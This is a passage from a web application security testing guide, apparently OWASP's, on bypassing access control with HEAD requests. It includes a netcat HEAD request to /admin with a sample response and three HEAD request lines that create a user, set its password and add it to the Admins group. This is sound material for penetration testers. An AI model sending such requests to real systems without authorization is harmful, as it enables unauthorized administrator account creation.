 With some luck, using the above three commands - modified to suit the
application under test and testing requirements - a new user would be
created, a password assigned, and made an administrator.

### Testing for HEAD access control bypass

Find a page to visit that has a security constraint such that it would
normally force a 302 redirect to a log in page or forces a log in
directly. The test URL in this example works like this, as do many web
applications. However, if the tester obtains a "200" response that is
not a login page, it is possible to bypass authentication and thus
authorization.

    $ nc www.example.com 80
    HEAD /admin HTTP/1.1
    Host: www.example.com

    HTTP/1.1 200 OK
    Date: Mon, 18 Aug 2008 22:44:11 GMT
    Server: Apache
    Set-Cookie: PHPSESSID=pKi...; path=/; HttpOnly
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
    Pragma: no-cache
    Set-Cookie: adminOnlyCookie1=...; expires=Tue, 18-Aug-2009 22:44:31 GMT; domain=www.example.com
    Set-Cookie: adminOnlyCookie2=...; expires=Mon, 18-Aug-2008 22:54:31 GMT; domain=www.example.com
    Set-Cookie: adminOnlyCookie3=...; expires=Sun, 19-Aug-2007 22:44:30 GMT; domain=www.example.com
    Content-Language: EN
    Connection: close
    Content-Type: text/html; charset=ISO-8859-1

If the tester gets a "405 Method not allowed" or "501 Method
Unimplemented", the target
(application/framework/language/system/firewall) is working correctly.
If a "200" response code comes back, and the response contains no body,
it's likely that the application has processed the request without
authentication or authorization and further testing is warranted.

If the tester thinks that the system is vulnerable to this issue, they
should issue CSRF-like attacks to exploit the issue more fully:

  - HEAD /admin/createUser.php?member=myAdmin
  - HEAD
    /admin/changePw.php?member=myAdmin\&passwd=foo123\&confirm=foo123
  - HEAD /admin/groupEdit.php?group=Admins\&member=myAdmin\&action=add

With some luck, using the above three commands - modified to suit the
application under test and testing requirements - a new user would be
created, a password assigned, and made an administrator, all using blind
request submission.

## Tools

  - NetCat - <http://nc110.sourceforge.net>
  - cURL - <http://curl.haxx.se/>
  - nmap http-methods NSE script -
    <https://nmap.org/nsedoc/scripts/http-methods.html>
